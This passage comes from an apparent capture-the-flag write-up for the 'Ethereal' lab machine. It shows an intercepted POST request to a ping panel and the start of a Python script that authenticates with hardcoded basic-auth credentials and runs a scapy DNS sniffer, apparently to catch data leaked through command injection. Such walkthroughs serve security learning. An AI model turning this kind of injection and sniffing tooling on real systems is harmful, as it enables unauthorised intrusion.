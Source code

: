 ### Interact With Page

Now I need to build in interaction with the Ping Panel. If I go into burp, and look at a POST to the page, I’ll notice a few things:

```

POST / HTTP/1.1
Host: ethereal.htb:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://ethereal.htb:8080/
Content-Type: application/x-www-form-urlencoded
Content-Length: 289
Authorization: Basic YWxhbjohQzQxNG0xN3k1N3IxazNzNGc0MW4h
Connection: close
Upgrade-Insecure-Requests: 1

__VIEWSTATE=%2FwEPDwULLTE0OTYxODU3NjhkZP0D71BrdSC2r6xNMsSvx5TLwDHEW3R5Nu77TRePe554&__VIEWSTATEGENERATOR=CA0B0334&__EVENTVALIDATION=%2FwEdAAOSdp36r9zrz%2Bs0ovq%2FbSa14CgZUgk3s462EToPmqUw3OKvLNdlnDJuHW3p%2B9jPAN8kvJMME1vv%2Bx5EO%2Fp9qTNUHD5bMT5kaL78WVMNT%2BVpZw%3D%3D&search=127.0.0.1&ctl02=

```

I need the http basic auth, and I need to get a handful of parameters for the POST request.

#### Basic Auth

I’ll start with the basic auth. I’ll be using the `requests` module to make HTTP requests, so I’ll follow the guidance from the [documentation](http://docs.python-requests.org/en/master/user/authentication/#basic-authentication) for using basic auth. I’m going to build this initial query in the `__init__` method, as that is where it will eventually end up. To start, I’ll have it fetch the page and print it on init:

```

  1 #!/usr/bin/env python3
  2 
  3 import requests
  4 from cmd import Cmd
  5 from requests.auth import HTTPBasicAuth
  6 from scapy.all import *
  7 from threading import Thread
  8 
  9 
 10 class dns_sniff(Thread):
...
 27 class Terminal(Cmd):
 28     prompt = "ethereal> "
 29     
 30 
 31     def __init__(self):
 32         super().__init__()
 33         auth = HTTPBasicAuth('alan','!C414m17y57r1k3s4g41n!')
 34         resp = requests.get('http://ethereal.htb:8080/', auth=auth)
 35         print(resp.text)
 36 
 37 
 38     def default(self, args):
 39         print(f"Entered: {args}")
 40 
 41 
 42 dns = dns_sniff(interface='eth0', target_ip='10.1.1.153')
 43 dns.start()
```